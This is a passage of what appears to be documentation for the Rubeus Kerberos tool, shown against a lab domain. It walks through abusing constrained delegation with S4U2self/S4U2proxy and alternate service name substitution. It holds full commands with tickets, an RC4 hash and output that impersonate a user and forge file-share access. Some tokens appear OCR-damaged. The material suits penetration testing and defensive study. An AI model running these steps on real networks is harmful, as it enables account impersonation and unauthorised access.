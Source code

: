 Then the S4U2proxy abuse function (using the ticket from the previous S4U2self process) would be:

 C:\Rubeus>Rubeus.exe s4u /ticket:doIE+jCCBPagAwIBBaEDAgEWoo..(snip).. /msdsspn:"ldap/PRIMARY.testlab.local" /tgs:doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..
 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3

 [*] Action: S4U

 [*] Loaded a TGS for TESTLAB.LOCAL\dfm.a@TESTLAB.LOCAL
 [*] Impersonating user 'dfm.a@TESTLAB.LOCAL' to target SPN 'ldap/PRIMARY.testlab.local'
 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
 [*] Sending S4U2proxy request
 [*] Connecting to 192.168.52.100:88
 [*] Sent 2641 bytes
 [*] Received 1829 bytes
 [+] S4U2proxy success!
 [*] base64(ticket.kirbi) for SPN 'ldap/PRIMARY.testlab.local':

 doIGujCCBragAwIBBaEDAgEWoo..(snip)..

Where `/ticket:X` is the TGT returned in the first step, and `/tgs` is the S4U2self ticket. Injecting the resulting ticket (manually with [Rubeus.exe ptt /ticket:X](#ptt) or by supplying the `/ptt` flag to the **s4u** command) will allow you access the **ldap** service on primary.testlab.local _as if you are dfm.a_.

The `/altservice` parameter takes advantage of [Alberto Solino](https/twitter.com/agsolino)'s great discovery about [how the service name (sname) is not protected in the KRB-CRED file](https/www.coresecurity.com/blog/kerberos-delegation-spns-and-more), only the server name is. This allows us to substitute in any service name we want in the resulting KRB-CRED (.kirbi) file. One or more alternate service names can be supplied, comma separated (`/altservice:cifs,HOST,...`).

Let's expand on the previous example, forging access to the filesystem on **primary.testlab.local** by abusing its constrained delegation configuration and the alternate service substitution. Let's package it all into one step as well, performing a TGT request, S4U2self process, S4U2proxy execution, and injection of the final ticket:

 C:\Rubeus>dir \\primary.testlab.local\C$
 Access is denied.

 C:\Rubeus>Rubeus.exe s4u /useratsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a /msdsspn:"ldap/PRIMARY.testlab.local" /altservice:cifs /ptt

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
